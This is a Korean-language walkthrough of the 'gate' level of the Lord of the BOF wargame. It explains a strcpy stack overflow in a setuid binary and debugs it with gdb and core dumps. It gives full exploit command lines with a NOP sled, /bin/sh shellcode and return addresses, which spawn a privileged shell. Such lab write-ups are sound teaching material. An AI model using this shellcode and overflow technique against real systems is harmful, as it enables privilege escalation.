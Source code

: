 # LOB - Gate

## 주어진 파일

![1567941739468](https://user-images.githubusercontent.com/52530785/64917066-bd3e8b80-d7c6-11e9-9d72-9cb26dfdacf1.png)


ID : gate

PW : gate로 접속한다.



![1567941702228](https://user-images.githubusercontent.com/52530785/64917065-bca5f500-d7c6-11e9-80a8-29d1e5dfac99.png)

```c
vi gremlin.c
```

![1567930461328](https://user-images.githubusercontent.com/52530785/64917072-bdd72200-d7c6-11e9-9d50-871b82e01c05.png)



위의 프로그램은 ./실행파일, 인자

를 넣어서 실행하는 파일로, 인자를 넣지 않는다면 error

인자를 넣는다면 인자를 그대로 출력해 주는 프로그램이다.

하지만, strcpy를 통해 buffer의 크기인 256을 넘어가면 문제가 생기게 된다.



## GDB

처음 gdb로 확인하려면 자신의 권한으로 까야하기 때문에 main 페이지에 있던 gremlin 파일을 디렉터리를 새로 만들어서 복사한다.

```mkdir
mkdir tmp
cp gremlin tmp/
```

![1567941473987](https://user-images.githubusercontent.com/52530785/64917064-bca5f500-d7c6-11e9-87c0-b57496d2586b.png)



복사를 하고 나면 소유자와 그룹이 gremlin 이었던 파일이 자신의 이름인 gate와 gate로 바뀐 것을 볼 수 있다.

이제 gdb를 실행할 수 있다.



```c
gdb gremlin
```

![1567931017425](https://user-images.githubusercontent.com/52530785/64917056-bb74c800-d7c6-11e9-9aa2-a25aeb459a51.png)



gdb로 main문을 보면 sub 0x100으로 버퍼 크기인 256 바이트가 보인다.



![1567930817522](https://user-images.githubusercontent.com/52530785/64917055-bb74c800-d7c6-11e9-9d84-fed0cdec97da.png)

위의 프로그램은 버퍼에 256 byte, SFP에 4 byte, RET에 4 byte 가 들어가서 



SFP :   Saved Frame Pointer로 프레임 포인터 값을 가지는 공간으로서 만약 main에서 다른 함수를 호출했을때, 돌아올 주소를 저장하는 공간이다.

-> EBP



RET은 Retrun Address 로써 프로그램이 마치면 돌아갈 주소를 저장하는 공간으로 bof의 궁극적 목적 공간이다.

이 ret을 조작하여 다른 곳으로 돌아가게 할 수 있으며, SetUID가 걸렸을 경우 쉘로 조작하여 상위 권한의 수을 얻을 수 있다.



RET은 우리가 실행해야할 주소가 들어가야하므로

Buffer 부분에 쉘코드를 집어 넣은 후 SFP까지 0x90으로 Nop 값을 채워주면 된다.

Buffer 는 256 byte

SFP 는 4 byte 이므로 260 byte를 채우고,

RET 에 내가 점프하고 싶은 부분의 주소를 넣으면 된다.



```c
buffer의 크기는 256 byte
SFP의 크기는 4 byte 
이므로 둘을 더한 260 byte (= 0x104)
    
./gremlin `python -c 'print "a"*0x104'`
를 실행하면 segmentation fault 가 뜬다.
```





## 쉘코드

![1567941320888](https://user-images.githubusercontent.com/52530785/64917129-15c25880-d7c8-11e9-8b5c-b4b095005f72.png)


```c
\x90으로 215 바이트
쉘코드 25 바이트
\x90 20바이트	를 채워서 Buffer + SFP 의 크기인 260 바이트를 채워주고
마지막에 RET 값을 넣는다.

./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"내가 점프하고 싶은 부분의 주소"'`
```

- 첫 부분에 쉘코드를 넣으면 정확한 주소 값을 알고 난 후 공격해야하므로 
- Nop으로 앞부분을 채워준 후 쉘코드 + Nop + RET 값을 넣는다.
- 하지만 쉘코드와 RET 주소 값을 가장 뒤에 같이 두면 쉘코드 뒤에 따라 나오는 값이 있을 수 있으므로

- 쉘코드 뒤에 어느 정도 Nop을 넣어준 후 마지막에 점프하고 싶은 부분의 주소(RET)를 넣어줘야한다.





일단 RET 부분에 aaaa를 넣고 aaaa가 어디에 들어가는지 보았다.

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\x61\x61\x61\x61"'`
```



```c
gdb gremlin 명령어를 통해 gdb를 열고 위의 POC를 적는다.
```

![1567939292222](https://user-images.githubusercontent.com/52530785/64917058-bc0d5e80-d7c6-11e9-8b88-6c95eab1fa1f.png)



0x61616161 주소가 뭐냐고 묻는다.



- RET에 0x61616161이 들어갔으므로 eip에 들어간다.

![1567939240330](https://user-images.githubusercontent.com/52530785/64917057-bb74c800-d7c6-11e9-9bad-02fc344ca5e0.png)



```c
x/100wx $esp+300 명령어로 어떻게 값이 들어갔는지 보면
```

![1567939933686](https://user-images.githubusercontent.com/52530785/64917059-bc0d5e80-d7c6-11e9-9940-caf82cd73ceb.png)

위와 같이 Nop으로 값이 채워지고, 중간에 쉘코드, Nop, RET 값이 들어가는 것을 볼 수 있다.

이제 맨 마지막 0x61616161 자리에 Nop이 있는 주소 중 아무거나 넣어주면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](https://user-images.githubusercontent.com/52530785/64917070-bdd72200-d7c6-11e9-8dff-1f75f968d658.png)

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xdc\xfb\xff\xbf"'`
```





### 위의 명령어로 되지 않을때

하지만 gdb를 실행할때마다 주소값이 차이가 조금씩 나기 때문에,

위의 명령어로 되지 않을 수도 있다.

그래서 core 파일을 확인해본다.



- segmentation fault 날 때 core dumped 를 통해 나오는 core 파일을 확인한다.

![1567940758653](https://user-images.githubusercontent.com/52530785/64917060-bc0d5e80-d7c6-11e9-9d18-ca95717badab.png)

위와 같이 core dumped가 나오면



다음과 같이 core 파일이 생긴다.

![1567941218417](https://user-images.githubusercontent.com/52530785/64917063-bca5f500-d7c6-11e9-9b75-bf33f6e57427.png)



```c
gdb -c core 명령어를 통해 들어간 후
```

![1567940878365](https://user-images.githubusercontent.com/52530785/64917061-bc0d5e80-d7c6-11e9-8e0b-466fc4d3366c.png)



```c
x/100wx $esp+300 값을 통해 값이 어디에 들어갔는지 확인해본다.
```

![1567941114068](https://user-images.githubusercontent.com/52530785/64917062-bca5f500-d7c6-11e9-9e9c-0db3d87e1d26.png)



이 중 Nop 값 중 하나를 선택해서 RET에 넣으면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037-1568525258114](https://user-images.githubusercontent.com/52530785/64917071-bdd72200-d7c6-11e9-97ae-2b51d32d9df7.png)




```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xcc\xfb\xff\xbf"'`
```

![1567941814846](https://user-images.githubusercontent.com/52530785/64917068-bd3e8b80-d7c6-11e9-86d6-97af16e845a1.png)

쉘이 뜬다.



![1567941853794](https://user-images.githubusercontent.com/52530785/64917069-bdd72200-d7c6-11e9-91af-320ad4cbfafc.png)

ID를 보면 gremlin이 있다.

my-pass 를 보면 gremlin의 password가 나온다.
